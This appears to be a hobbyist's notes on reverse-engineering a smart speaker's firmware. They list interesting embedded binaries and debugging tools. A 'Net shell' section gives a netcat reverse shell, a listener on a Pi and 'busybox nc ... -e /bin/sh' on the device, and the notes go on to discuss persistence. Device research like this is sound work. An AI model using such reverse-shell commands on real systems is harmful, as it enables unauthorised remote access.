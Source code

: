 There is no hci_tool as found in many Linux.

Other embedded binaries that might be worth investigating, just based on the name:
- /bin/flash_bootloader
- /bin/flash_image
- /bin/factory
- /bin/eeprom_nv
- /bin/eipc
- /bin/boots_srv
- /bin/bluetoothtbd
- /bin/ble_util
- /bin/appmainprog - spoiler, this runs one of the listening sockets
- /bin/autotools_daemon - spoiler, this runs one of the listening sockets
- /bin/BT_RX_Start and others
- /bin/WIFI_ATEmode - I think ATE mode is the pairing mode
- /bin/WIFI_RX_Start and others
- /bin/cast_control_server and related tools
- /bin/kisd - I think this is a secure enclave tool or similar, from quick Internet search

There are others, too

The /sbin/ directory has a bunch of shell scripts, and the ubi related tools

There are some random things in /vendor/bin

In /xbin/ were strace and another tcpdump

In /usr/bin is gdbserver! and a bunch of other scripts

In /data/usr/bin is dropbear with a symlink for scp

There are more binaries in /chrome. A quick search indicates that smart speakers and casters may actually use a headless browser to fetch and process media files.

# Net shell

I was able to make a netcat reverse shell.

On the pi400, listen on port 6789:
```
nc –lvp 6789
```

On the target - connect to the pi on port 6789 and then start the shell and pipe the I/O through:
```
busybox nc 192.168.255.252 6789 -e /bin/sh
```

Doing it this way is annoying, if you press CTRL+C on the pi it kills the connection... there are better ways.

At least with the shell, I dont have to deal with the logging junk.

# Persistence

At the moment, this is a bit annoying
- to reboot, need to ensure tx is temporarily disconnected
- seems to be no way to hook system boot process and get a program to run from `/data` so we can launch a remote shell
